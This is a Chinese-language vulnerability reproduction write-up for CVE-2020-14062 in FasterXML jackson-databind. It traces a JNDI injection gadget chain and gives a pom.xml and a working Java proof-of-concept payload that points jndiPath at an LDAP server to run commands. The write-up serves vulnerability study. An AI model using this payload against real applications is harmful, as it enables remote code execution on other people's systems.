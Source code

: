 （CVE-2020-14062）FasterXML jackson-databind 反序列化漏洞
=========================================================

一、漏洞简介
------------

**利用条件**开启`enableDefaultTyping()`使用了`com.sun.xml.parsers:jaxp-ri`第三方依赖

二、漏洞影响
------------

jackson-databind before 2.9.10.4jackson-databind before 2.8.11.6jackson-databind before 2.7.9.7

三、复现过程
------------

### 漏洞分析

首先定位到`com.sun.org.apache.xalan.internal.lib.sql.JNDIConnectionPool`类，之后发现一处可疑的JNDI注入：1.png参数为jndiPath，该参数在当前类中有对应的set操作，在反序列化时会调用setJndiPath进行一次赋值操作，故可控：2.png然而我们的`findDatasource`并不会被调用，之后全局搜索`findDatasource`函数，发现存在两处，一处是`testConnect()`，这对我们来说无用，另外一处是`getConnection()`,该函数在序列化时会被调用：3.png在反序列化操作时，我们可以将`jndipath`指向恶意`LDAP`服务，之后再次进行序列化操作时`getConnection`会被调用(多少有些鸡肋，需要先反序列化，灾后再序列化一次)，由此导致`findDatasource`被调用，最后导致JNDI注入，整个利用链如下所示：

    mapper.readValue
        ->setJndiPath
            ->getConnection
                 ->findDatasource
                     ->context.lookup(this.jndiPath);

### 漏洞复现

> pom.xml文件：

    <dependencies>
        <dependency>
          <groupId>com.fasterxml.jackson.core</groupId>
          <artifactId>jackson-databind</artifactId>
          <version>2.9.10.4</version>
        </dependency>

        <dependency>
          <groupId>com.sun.xml.parsers</groupId>
          <artifactId>jaxp-ri</artifactId>
          <version>1.4</version>
        </dependency>

        <dependency>
          <groupId>org.slf4j</groupId>
          <artifactId>slf4j-nop</artifactId>
          <version>1.7.2</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/javax.transaction/jta -->
        <dependency>
          <groupId>javax.transaction</groupId>
          <artifactId>jta</artifactId>
          <version>1.1</version>
        </dependency>
      </dependencies>

> POC:

    package com.jacksonTest;

    import com.fasterxml.jackson.databind.ObjectMapper;

    import java.io.IOException;

    public class Poc {
        public static void main(String[] args) throws Exception {
            ObjectMapper mapper = new ObjectMapper();
            mapper.enableDefaultTyping();
            String payload = "[\"com.sun.org.apache.xalan.internal.lib.sql.JNDIConnectionPool\",{\"jndiPath\":\"ldap://127.0.0.1:1099/Exploit\"}]";
            try {
                Object obj = mapper.readValue(payload, Object.class);
                mapper.writeValueAsString(obj);
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

之后运行该程序，成功执行命令，弹出计算器：

4.png

参考链接
--------

> https://xz.aliyun.com/t/8012\#toc-12
